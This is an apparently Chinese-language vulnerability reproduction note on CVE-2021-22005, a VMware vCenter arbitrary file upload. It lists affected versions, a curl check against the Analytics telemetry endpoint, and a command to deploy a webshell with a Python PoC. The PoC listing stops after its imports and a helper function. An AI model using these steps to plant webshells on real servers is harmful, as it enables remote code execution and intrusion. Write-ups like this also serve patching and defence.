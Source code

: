 # VMware vCenter Server 任意文件上传漏洞 CVE-2021-22005

# VMware vCenter Server 任意文件上传漏洞 CVE-2021-22005

## 漏洞描述

VMware是一家云基础架构和移动商务解决方案厂商，提供基于VMware的虚拟化解决方案。

2021年9月22日，VMware官方发布安全公告，披露了包括 CVE-2021-22005 VMware vCenter Server 任意文件上传漏洞在内的多个中高危严重漏洞。在CVE-2021-22005中，攻击者可构造恶意请求，通过vCenter中的Analytics服务，可上传恶意文件，从而造成远程代码执行漏洞。

## 漏洞影响

```
VMware vCenter Server 7.0系列 < 7.0 U2c 
VMware vCenter Server 6.7系列 < 6.7 U3o 
VMware vCenter Server 6.5系列 不受漏洞影响 
```

其余漏洞受影响版本可参考 ：https://www.vmware.com/security/advisories/VMSA-2021-0020.html 

安全版本： 

```
VMware vCenter Server 7.0 U2c 
VMware vCenter Server 6.7 U3o
```

## 漏洞复现

### EXP

可以针对 /analytics/telemetry/ph/api/level 执行 cURL 请求来识别服务器是否受影响：

```
curl -k -v "https://your-ip/analytics/telemetry/ph/api/level?_c=test"
```

- 如果服务器 Response 200/OK，响应内容不包含 OFF，则容易受到攻击。

- 如果服务器 Response 200/OK，响应内容包含 OFF，则可能不易受到攻击，且未修复。

- 如果服务器 Response 400/Bad Request，则已修复。 

- 如果服务器 Response 404/Not Found，则要么不适用，要么已应用解决方法。该解决方法会禁用受影响的 API。

漏洞 exp 部署 webshell：

```
python3 CVE-2021-22005_poc.py -t https://your-ip
```

```python
import requests
import random
import string
import sys
import time
import requests
import urllib3
import argparse
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
 
def id_generator(size=6, chars=string.ascii_lowercase + string.digits):
 return ''.join(random.choice(chars) for _ in range(size))
  
```